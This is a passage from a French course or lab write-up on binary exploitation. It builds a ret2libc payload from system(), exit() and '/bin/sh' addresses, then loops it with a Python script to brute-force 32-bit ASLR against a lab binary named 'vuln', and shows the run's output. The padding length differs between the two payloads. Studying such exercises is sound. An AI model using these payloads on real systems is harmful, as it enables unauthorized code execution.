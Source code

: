 Maintenant que nous avons notre adresse, nous pouvons  construire notre payload de cette manière.
![Payload](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-MXwAmlrjE8Ejl_0OQQX%2F-MY1FO9lURZfx9fTrAf0%2Fimage.png?alt=media&token=39659182-e3ff-4d34-a031-c7091567890a)

| padding | &fonction | addr retour  | paramètre |
|------|------|------|------|
|40*A | &system() | &exit() | &"bin/sh"(dans la libc) |
|"AAAA..." | 0xf7e149e0 | 0xf7e07a60 | 0xf7f54aaa

*A préciser que l'adresse d'exit n'est pas nécessaire, juste une manière propre de quitter après l'exécution de notre shell.*

Nous pouvons désormais injecter la payload suivante, qui fonctionne bien en dehors de gdb.
```python
`python -c "print 'A'*40 + '\xe0\x49\xe1\xf7' + '\x60\x7a\xe0\xf7' + '\xaa\x4a\xf5\xf7',"`
```



## Exercice 4 - 'Hardened Binary Cheating The ASLR'</br></br>

Une fois l'ASLR activé, la libc ne sera pas forcément au même endroit à chaque exécution.
Cependant l'ASLR en 32-bit est faible au bruteforce, car seulement 16bits sont randomisés.

On peut odnc injecter notre payload en boucle
jusqu'à ce qu'il soit valide.

Script python:
```python
#!/usr/bin/python
import subprocess
payload = 'A'*140 + '\xe0\x49\xe1\xf7' + '\x60\x7a\xe0\xf7' + '\xaa\x4a\xf5\xf7'
while(True):
    subprocess.call(['./vuln', payload])
```
Trace d'exécution:
```bash
userir@buster:~/Downloads/TP2-TD4/Hardened_Binary_Cheating_The_ASLR$ ./solv.py 
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
```
